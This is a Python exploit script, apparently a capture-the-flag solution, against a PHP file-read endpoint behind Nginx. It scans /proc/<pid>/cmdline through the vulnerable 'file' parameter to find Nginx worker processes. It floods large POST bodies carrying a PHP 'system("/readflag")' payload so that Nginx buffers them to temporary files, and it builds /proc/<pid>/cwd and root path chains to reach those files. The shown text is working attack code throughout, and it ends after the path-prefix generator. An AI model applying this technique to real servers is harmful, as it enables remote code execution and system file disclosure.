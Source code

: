 ```python
import requests
import threading
import multiprocessing
import threading
import random

SERVER = "http://localhost:8088"
NGINX_PIDS_CACHE = set([34, 35, 36, 37, 38, 39, 40, 41])
# Set the following to True to use the above set of PIDs instead of scanning:
USE_NGINX_PIDS_CACHE = False

def create_requests_session():
    session = requests.Session()
    # Create a large HTTP connection pool to make HTTP requests as fast as possible without TCP handshake overhead
    adapter = requests.adapters.HTTPAdapter(pool_connections=1000, pool_maxsize=10000)
    session.mount('http://', adapter)
    return session

def get_nginx_pids(requests_session):
    if USE_NGINX_PIDS_CACHE:
        return NGINX_PIDS_CACHE
    nginx_pids = set()
    # Scan up to PID 200
    for i in range(1, 200):
        cmdline = requests_session.get(SERVER + f"/?action=read&file=/proc/{i}/cmdline").text
        if cmdline.startswith("nginx: worker process"):
            nginx_pids.add(i)
    return nginx_pids

def send_payload(requests_session, body_size=1024000):
    try:
        # The file path (/bla) doesn't need to exist - we simply need to upload a large body to Nginx and fail fast
        payload = '<?php system("/readflag"); ?> //'
        requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))
    except:
        pass

def send_payload_worker(requests_session):
    while True:
        send_payload(requests_session)

def send_payload_multiprocess(requests_session):
    # Use all CPUs to send the payload as request body for Nginx
    for _ in range(multiprocessing.cpu_count()):
        p = multiprocessing.Process(target=send_payload_worker, args=(requests_session,))
        p.start()

def generate_random_path_prefix(nginx_pids):
    # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/<nginx pid 1>/cwd/proc/<nginx pid 2>/root/proc/<nginx pid 3>/root
    path = ""
    component_num = random.randint(0, 10)
    for _ in range(component_num):
        pid = random.choice(nginx_pids)
        if random.randint(0, 1) == 0:
            path += f"/proc/{pid}/cwd"
        else:
            path += f"/proc/{pid}/root"
    return path

```